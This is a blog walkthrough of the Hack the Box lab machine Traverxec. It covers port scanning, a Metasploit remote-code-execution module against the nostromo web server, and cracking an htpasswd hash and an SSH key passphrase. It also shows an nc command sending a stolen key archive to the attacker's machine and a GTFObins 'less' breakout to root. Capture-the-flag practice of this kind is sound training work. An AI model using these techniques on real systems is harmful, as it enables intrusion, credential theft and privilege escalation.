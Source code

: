 +++
author = "Nick"
categories = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
date = 2020-04-11T10:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/11/trav.png"
slug = "hack-the-box-traverxec"
summary = "Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in"
tags = ["hack the box", "CVE", "ssh", "ssh2john", "metasploit", "reverse shell", "RCE", "GTFObins", "john", "cracking"]
title = "Hack the Box - Traverxec"

+++


Here is my walk through of the machine Traverxec on Hack the Box. The box is listed as easy so let's jump in.

As we do with every box, we start with our initial ```nmap```: ```nmap -sC -sV -oA initial_scan 10.10.10.165```

Our results come back as pretty limited. We'll run the scan again with the ```-p-``` options to enumerate all ports. Turns out there was no new ports open. Here are the results:

```
Nmap scan report for 10.10.10.165
Host is up (0.061s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|_  256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 213.48 seconds
```
A quick ```searchsploit``` on ```nostromo``` shows that there is a RCE payload we might be able to use. We'll head over to see what is being hosted on port 80. We see a pretty standard website. We have a contact form that seemingly doesn't work. So our basic exploration hasn't found anything useful. We'll boot up ```gobuster``` and see what it can find.

While that runs we'll load up ```metasploit``` and see if the RCE payload can be of use. We will find the exploit and set it's requirements. We need to set ```RHOST``` and ```LHOST```.

![](/images/2019/11/trav-msfpl.gif" caption="Laggy shell :()

Once we run the exploit we gain a shell as ```www-data```. We quickly create a proper shell with python and start enumerating. We download a copy of ```linenum``` or ```linpeas``` from our ```SimpleHTTPServer``` and let it go. One of the first things that stands out is that we have a ```.htpassword```. We can take this hash and load it into ```hashcat``` and with some luck, crack it.

```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked_hash.txt```

This will attempt to crack the hash and give us an output. Once its done we see the cracked password of ```Nowonly4me```. Now given the type of access this is restricting, we'll need to apply this authentication type to an ```HTTP``` request. Time to look at the [```nhttpd``` documentation](http://www.nazgul.ch/dev/nostromo_man.html). We see that under the ```HOMDIRS``` section, places can essentially be aliased with this setting. Our configs tell us that we are mapping ```/home```. So given this example, we can go to ```http://10.10.10.165/~david/``` and should see some content.

![](/images/2019/11/image-60.png)

The above is what we are greeted with when we do. Awesome, so now we can hopfully append an authentication to the request and have some access. However even with appending authentication to the requests I wasn't able to gain the access in the way I thought. So when I went back to re-read the config and documentation, it seems like ```public_www``` might also be mapped to David's home directory. Now when we path in David's home directory we can't list any files, however, that doesn't mean they aren't there. So if we try to path to ```public_www``` we see it is indeed a valid path.

![](/images/2019/11/hidden-1.gif)

We see that there is a file called ```backup-ssh-identity-files.tar```. We want to download this file, so we'll transfer it back to our machine. We'll use a ```nc``` file transfer method:

On our attacking machine we'll setup a listener: ```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

Then on our target machine we'll send the file over ```cat backup-ssh-identity-files.tar | nc 10.10.14.5 9999```

Once we get the file we can unzip it with ```gunzip```. We get a directory called ```home```. Which is a copy of the home directory. Inside we have our ```SSH``` keys. Now we need to convert the ```id_rsa``` to a crackable format. We'll use ```ssh2john```.

```ssh2john ./id_rsa > david.hash```

We'll then run it through ```John```:

```john --wordlist=/usr/share/wordlists/rockyou.txt david.hash```

Almost immediately we see a potential match, ```hunter```.

![](/images/2019/11/image-61.png)

So we try this password with our key and we get in!

![](/images/2019/11/image-62.png)

One we're in we see that there are some scripts in ```bin``` file in David's home directory. When we parse through the file we see that we are calling ```journalctl``` as sudo. We might be able to append to this call and break out of our shell to get root. Now this is a pretty CTF type thing and took me a while, even though I was staring at [```GTFObins```](https://gtfobins.github.io/gtfobins/less/) for quite some time. We issue the following:

```VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile``` 

We can append this to the last line being called in the script and gain our access as root.

![](/images/2019/11/trav-root.gif)

There we have it, our root flag! This last bit was CTF like but still fun none the less!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).


